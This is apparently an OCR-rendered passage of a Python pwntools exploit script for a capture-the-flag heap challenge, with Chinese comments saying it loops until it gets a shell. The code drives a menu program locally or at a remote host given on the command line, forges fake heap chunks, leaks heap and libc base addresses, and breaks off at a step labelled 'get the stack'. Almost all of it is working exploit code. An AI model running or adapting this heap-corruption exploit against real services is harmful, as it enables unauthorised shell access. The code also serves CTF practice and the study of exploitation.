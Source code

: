   ```python
'''
if lib_file != None:
	lib = ELF(lib_file)

log.info('-----------------------------------------------------------')


'''
	执行爆破攻击
	只有当成功获取shell或者键盘Ctrl+C退出时，程序中止循环
	否则程序一直进行循环
'''


def wp_add(r, idx, size):
	r.sendlineafter('>> \n', str(1))
	r.sendlineafter('input index:\n', str(idx))
	r.sendlineafter('input size:\n', str(size))

def wp_delete(r, idx):
	r.sendlineafter('>> \n', str(2))
	r.sendlineafter('input index:\n', str(idx))

def wp_edit(r, idx, context):
	r.sendlineafter('>> \n', str(3))
	r.sendlineafter('input index:\n', str(idx))
	r.sendlineafter('input context:\n', context)


def wp_show(r, idx):
	r.sendlineafter('>> \n', str(4))
	r.sendlineafter('input index:\n', str(idx))

def exp():
	if 'd' in sys.argv:
		#r = gdb.debug([execve_file] + argv)	# 首先加载当前目录下的动态库文件
		r = process([execve_file] + argv)	# 首先加载当前目录下的动态库文件
	else:
		r = remote(sys.argv[1], sys.argv[2])
	
	for i in range(12):
		wp_add(r, i, 0x50)	#base + 0x60 * i
	
	#fake chunk: base + 0x20
	wp_delete(r, 1)
	wp_delete(r, 0)
	wp_show(r, 0)
	chunk_base = u64(r.recv(6).ljust(8, '\x00')) - 0x60 - 0x10
	log.info('chunk_base => %#x'%(chunk_base))
	wp_edit(r, 11, p64(0) * 2 + p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21))
	wp_edit(r, 0, p64(chunk_base + 0x30) + p64(0) + p64(0) + p64(0x421) + p64(0))


	# get the fake chunk and free
	wp_add(r, 0, 0x50)	#base
	wp_add(r, 13, 0x50)	#base + 0x20
	wp_delete(r, 13)
	wp_show(r, 13)
	lib_base = u64(r.recv(6).ljust(8, '\x00')) - 0x7fddc0f01ca0 + 0x7fddc0b16000
	log.info('lib_base => %#x'%(lib_base))

	# get the stack
	wp_delete(r, 3)
  ```